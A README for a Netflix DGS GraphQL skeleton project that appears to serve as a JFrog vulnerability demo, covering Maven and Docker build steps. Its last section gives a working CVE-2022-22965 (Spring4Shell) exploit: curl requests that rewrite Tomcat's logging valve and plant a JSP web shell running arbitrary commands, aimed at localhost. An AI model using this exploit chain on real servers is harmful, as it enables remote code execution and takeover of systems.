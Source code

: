 # DGS (from Netflix) skeleton project

[![github-dgs-build](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml/badge.svg)](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml)

## Introduction

Run the project locally (outside docker): 
Set SHOWS_JSONDB_FOLDER env var (example : /Path/to/dgs-skeleton/src/main/resources/data)
then run

```
mvn spring-boot:run
```

## Build & run
Be sure that docker daemon is running.

Build as self executable JAR

```
export PKG_VERSION=1.2.3
export PKG_TYPE=jar
jf mvn -Drevision=$PKG_VERSION -Dmaven.test.skip=true clean package
docker build --build-arg JAR_FILE_NAME=dgs-skeleton-$PKG_VERSION.$PKG_TYPE -t dgs-graphql:latest .
docker run -p 8080:8080 -v ./src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql:latest
```

Then browse to http://localhost:8080/graphiql

Build WAR for Tomcat
```
export PKG_VERSION=1.2.3
export PKG_TYPE=jar
export MVN_VIRTUAL_REPO=dro-backend-maven-virtual
jf mvnc --repo-resolve-releases=$MVN_VIRTUAL_REPO --repo-deploy-releases=$MVN_VIRTUAL_REPO --repo-resolve-snapshots=$MVN_VIRTUAL_REPO  --repo-deploy-snapshots=$MVN_VIRTUAL_REPO
jf mvn -Drevision=$PKG_VERSION -Dmaven.test.skip=true -f pom-war.xml clean package deploy
cp ./target/dgs-skeleton-webapp-$PKG_VERSION.$PKG_TYPE ./target/jfrog-demo.war
docker build --build-arg WAR_FILE_NAME=jfrog-demo.war -f DockerfileTomcat -t dgs-graphql-tomcat:latest .
docker run -p 8080:8080 -v $PWD/src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql-tomcat:latest
```

Then browse to http://localhost:8080/jfrog-demo/graphiql

If this version is containing the vulnerabilty CVE-2022-22965, you can then exploit it as follow : 

First run
```
curl -H "Accept: text/html;" "http://localhost:8080/jfrog-demo/vulnerable-path?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%63%6f%64%65%7d%69&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```
To changes Tomcat config valve.

Then create the web shell 
```
curl -H "Accept: text/html;" -H "code: <% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(String.valueOf(1337))).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1) { out.println(new String(b)); } %>" "http://localhost:8080/jfrog-demo/vulnerable-path"
```
And run commands using
```
http://localhost:8080/shell.jsp?1337=ls%20-al
```

### References
- https://github.com/itsecurityco/CVE-2022-22965
- https://netflix.github.io/dgs/

